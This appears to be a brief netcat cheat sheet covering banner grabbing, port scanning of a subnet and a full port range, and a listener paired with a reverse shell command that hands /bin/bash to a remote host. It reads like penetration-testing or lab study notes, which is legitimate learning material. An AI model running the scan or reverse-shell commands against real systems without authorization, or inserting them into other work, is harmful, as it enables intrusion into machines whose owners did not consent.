 # What is Netcat?
Read and write to network connections using TCP or UDP

## Banners
You may need to press `return` after the final host line.
```sh
nc 10.10.10.10 80
GET / HTTP/1.1
host: myhostname
```

# Port Scanning
A basic scan using netcat

| Option | Description |
| ------ | ----------- |
| `-nv` | Don't resolve DNS, verbose |
| `-w 1` | sets timeout to 1 second |
| `-z` | specifies a port scan |
| `-u` | UDP mode |

`nc -nv -w 1 -z 192.168.1.1/24` 

Scan a range of ports and store the result in a file
```sh
nc -nv -w 1 -z 10.10.10.10 1-65535 2>&1 | awk '/succeeded!$/{print $3}' > port-scan.txt 2>&1
```

## Reverse Shells

A listener on port 4200:
`-l` - Listener
`-v` - verbose
`-n` - No DNS
`-p` - Port

```sh
nc -lvnp 4200
```

Bash reverse shell
```sh
nc 10.10.10.10 4200 -e /bin/bash
```
